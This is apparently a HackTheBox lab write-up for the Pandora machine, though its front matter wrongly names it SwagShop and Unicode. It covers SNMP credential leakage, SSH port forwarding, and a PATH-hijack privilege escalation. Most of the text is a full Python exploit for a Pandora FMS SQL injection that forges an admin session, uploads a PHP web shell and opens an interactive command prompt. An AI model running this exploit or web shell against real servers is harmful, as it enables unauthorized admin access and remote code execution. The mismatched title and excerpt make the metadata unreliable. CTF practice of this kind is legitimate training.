 ```yaml
---
title: HackTheBox - SwagShop
categories: htb SQLI RCE LPF
excerpt: | 
   Unicode is a easy difficulty Linux machine.

feature_text: |
  ## SwagShop - Easy 
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 26 21:44:59 2022 -- 1 IP address (1 host up) scanned in 11.43 seconds
```
This time we have a linux machine with two open ports and no way to attack. But it is important to scan UDP ports too. `nmap -sU --top-ports 100 10.10.11.136`
```
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-processes: 
|   1: 
|     Name: systemd
|     Path: /sbin/init
|     Params: maybe-ubiquity
```
This list of snmp-processes contains credentials of daniel. An attacker could use it to stablish an ssh conection.



### Exploit vulnerabilities
Once the attacker is inside the web as admin and following the code, there is one section to upload files. Including a .php with a web shell, you will have a RCE. 
Looking for SUID permissions, there is a suspicious binary `/usr/bin/pandora_backaup` and only matt can run it. 

### Migrating of user
site-availables contains some log file named pandora.log. There are one domain running on a localhost:
```
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
```
All the attacker needs is to refer his port 80 to the port 80 of daniel. Local Port Forwarding (LPF) `ssh daniel@10.10.11.136 -L 80:127.0.0.1:80`. Taking a look of the localhost web, it is pandora `Pandora FMS v7.0NG.742` 

Get this code on [github](https://raw.githubusercontent.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/master/sqlpwn.py). From this code an attacker only needs the SQL Injection to get a PHPSESSID of the admin. Then, reloading the page, he will be admin. 

``` python
#!/usr/bin/python3
import requests
import argparse
import cmd

parser = argparse.ArgumentParser(description="Exploiting Sqlinjection To impersonate Admin")
parser.add_argument("-t","--target", help=" Host Ip for the Exploiting with target Port" ,required=True)
parser.add_argument("-f","--filename", help="Filename for Shell Upload with php extension",default='pwn.php' )

args = parser.parse_args()
host=args.target
file_name=args.filename
base_path=f'http://{host}/pandora_console'

#Exploit Injection
#http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=' union SELECT 1,2,'id_usuario|s:5:"admin";' as data -- SgGO

print(f"URL:  {base_path}")
print("[+] Sending Injection Payload")
r=requests.get(f'http://{host}/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO')

if r.status_code==200:
    print("[+] Requesting Session")
    Session_Cookie_Admin=r.cookies.get('PHPSESSID')
    print(f'[+] Admin Session Cookie : {Session_Cookie_Admin}')
else :
    print('[+] Error Receiving Admin Cookie , Make sure the url is right or Check the table name using SQLMAP and change the table name in the payload')
##################################################################################################
# Got Cookie now Proceed with Pwning
##################################################################################################
cookies = {
    'PHPSESSID': Session_Cookie_Admin,
}

headers = {
    'Host': host,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'multipart/form-data; boundary=---------------------------308045185511758964171231871874',
    'Content-Length': '1289',
    'Connection': 'close',
    'Referer': f'http://{host}/pandora_console/index.php?sec=gsetup&sec2=godmode/setup/file_manager',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1',
}

params = (
    ('sec', 'gsetup'),
    ('sec2', 'godmode/setup/file_manager'),
)

data = f'-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="file"; filename="{file_name}"\r\nContent-Type: application/x-php\r\n\r\n<?php system($_GET[\'test\']);?>\n\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="umask"\r\n\r\n\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="decompress_sent"\r\n\r\n1\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="go"\r\n\r\nGo\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="real_directory"\r\n\r\n/var/www/pandora/pandora_console/images\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="directory"\r\n\r\nimages\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="hash"\r\n\r\n6427eed956c3b836eb0644629a183a9b\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="hash2"\r\n\r\n594175347dddf7a54cc03f6c6d0f04b4\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="upload_file_or_zip"\r\n\r\n1\r\n-----------------------------308045185511758964171231871874--\r\n'

print('[+] Sending Payload ')
response = requests.post(f'http://{host}/pandora_console/index.php', headers=headers, params=params, cookies=cookies, data=data, verify=False)
StatusCode=response.status_code
print(f'[+] Respose : {StatusCode}')

##################################################################################################
# Cmdline Class
class commandline_args(cmd.Cmd):
    prompt= "CMD > "
    def default(self,args):
        print(cmd_shell(args))

##################################################################################################
# Drop Interactive Shell
##################################################################################################

def cmd_shell(command):
    shell = requests.get(f'http://{host}/pandora_console/images/{file_name}?test={command}')
    return shell.text

try:
    print('[+] Pwned :)')
    print(f'[+] If you want manual Control : http://{host}/pandora_console/images/{file_name}?test=')
    commandline_args().cmdloop()
except KeyboardInterrupt:
    print('\n[+] Exiting!!!!')
    raise SystemExit
if not  StatusCode == 200:
    print('[+] Failed to Get Shell :(')
```


### Privilege Scalation
Get an interactive console of matt and examine pandora\_backup binary with `ltrace` and see what it is used with a relative path. Modifing the PATH you can do whatever you want with a comand `tar`
For example, file tar: /usr/bin/bash.

You get it! 
